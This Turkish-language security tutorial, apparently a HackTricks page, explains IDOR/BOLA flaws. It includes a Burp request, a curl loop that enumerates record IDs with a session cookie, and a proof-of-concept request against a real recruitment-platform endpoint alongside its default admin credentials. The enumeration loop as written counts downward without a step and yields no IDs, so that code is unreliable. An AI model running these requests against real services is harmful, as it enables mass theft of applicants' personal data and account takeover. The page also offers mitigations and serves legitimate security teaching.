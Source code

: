 # IDOR (Güvensiz Doğrudan Nesne Referansı)

{{#include ../banners/hacktricks-training.md}}

IDOR (Güvensiz Doğrudan Nesne Referansı) / Bozuk Nesne Seviyesi Yetkilendirme (BOLA), bir web veya API uç noktasının, **doğrudan** erişim sağlamak için kullanılan ve kullanıcı tarafından kontrol edilebilen bir tanımlayıcıyı ifşa etmesi veya kabul etmesi durumunda ortaya çıkar **çağrının bu nesneye erişim/ değiştirme yetkisi olduğunu doğrulamadan**. Başarılı bir istismar genellikle diğer kullanıcıların verilerini okuma veya değiştirme gibi yatay veya dikey ayrıcalık yükseltmelerine izin verir ve en kötü durumda, tam hesap ele geçirme veya kitlesel veri sızdırma ile sonuçlanabilir.

---
## 1. Potansiyel IDOR'ları Belirleme

1. **Bir nesneyi referans alan parametreleri** arayın:
* Yol: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`
* Sorgu: `?id=42`, `?invoice=2024-00001`
* Gövde / JSON: `{"user_id": 321, "order_id": 987}`
* Başlıklar / Çerezler: `X-Client-ID: 4711`
2. **Veri okuma veya güncelleme** yapan uç noktaları tercih edin (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Tanımlayıcıların **sıralı veya tahmin edilebilir** olduğuna dikkat edin – eğer ID'niz `64185742` ise, o zaman `64185741` muhtemelen vardır.
4. Ek API'leri açığa çıkarabilecek gizli veya alternatif akışları keşfedin (örneğin, giriş sayfalarındaki *"Paradox takım üyeleri"* bağlantısı).
5. **Kimlik doğrulaması yapılmış düşük ayrıcalıklı bir oturum** kullanın ve yalnızca ID'yi **aynı token/çerezi koruyarak** değiştirin. Yetkilendirme hatasının olmaması genellikle IDOR'un bir işareti olarak kabul edilir.

### Hızlı manuel müdahale (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```
### Otomatik numaralandırma (Burp Intruder / curl döngüsü)
```bash
for id in $(seq 64185742 64185700); do
curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-H "Cookie: auth=$TOKEN" \
-d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```
---
## 2. Gerçek Dünya Vaka Çalışması – McHire Chatbot Platformu (2025)

Paradox.ai destekli **McHire** işe alım portalının değerlendirilmesi sırasında aşağıdaki IDOR keşfedildi:

* Uç Nokta: `PUT /api/lead/cem-xhr`
* Yetkilendirme: **herhangi** bir restoran test hesabı için kullanıcı oturum çerezi
* Gövde parametresi: `{"lead_id": N}` – 8 haneli, **sıralı** sayısal tanımlayıcı

`lead_id` değerini düşürerek, test eden kişi rastgele başvuranların **tam KİŞİSEL VERİLERİ**ni (isim, e-posta, telefon, adres, vardiya tercihleri) ve oturum kaçırmaya izin veren bir tüketici **JWT**'sini elde etti. `1 – 64,185,742` aralığının numaralandırılması yaklaşık **64 milyon** kaydı açığa çıkardı.

Kanıt-of-Kavram isteği:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-d '{"lead_id":64185741}'
```
Birleştirildiğinde **varsayılan yönetici kimlik bilgileri** (`123456:123456`) test hesabına erişim sağladı ve bu zafiyet, kritik, şirket genelinde bir veri ihlaline yol açtı.

---
## 3. IDOR / BOLA'nın Etkisi
* Yatay yükselme – **diğer kullanıcıların** verilerini okuma/güncelleme/silme.
* Dikey yükselme – düşük yetkili bir kullanıcının yalnızca yöneticiye ait işlevselliğe erişimi.
* Tanımlayıcılar ardışık ise kitlesel veri ihlali (örneğin, başvuru kimlikleri, faturalar).
* Diğer kullanıcıların token'larını çalarak veya şifrelerini sıfırlayarak hesap ele geçirme.

---
## 4. Önlemler & En İyi Uygulamalar
1. Her istekte **nesne düzeyinde yetkilendirme** uygulayın (`user_id == session.user`).
2. Otomatik artan kimlikler yerine **dolaylı, tahmin edilemez tanımlayıcılar** (UUIDv4, ULID) tercih edin.
3. Yetkilendirmeyi **sunucu tarafında** gerçekleştirin, asla gizli form alanlarına veya UI kontrollerine güvenmeyin.
4. Merkezi bir ara katmanda **RBAC / ABAC** kontrolleri uygulayın.
5. Kimliklerin sıralanmasını tespit etmek için **oran sınırlama ve günlükleme** ekleyin.
6. Her yeni uç noktayı güvenlik testi yapın (birim, entegrasyon ve DAST).

---
## 5. Araçlar
* **BurpSuite uzantıları**: Authorize, Auto Repeater, Turbo Intruder.
* **OWASP ZAP**: Auth Matrix, Forced Browse.
* **Github projeleri**: `bwapp-idor-scanner`, `Blindy` (toplu IDOR avı).

{{#include ../banners/hacktricks-training.md}}

## Referanslar
* [McHire Chatbot Platform: Varsayılan Kimlik Bilgileri ve IDOR 64M Başvuranın Kişisel Bilgilerini Açığa Çıkardı](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Kırık Erişim Kontrolü](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [Daha Fazla IDOR Nasıl Bulunur – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
{{#include /banners/hacktricks-training.md}}
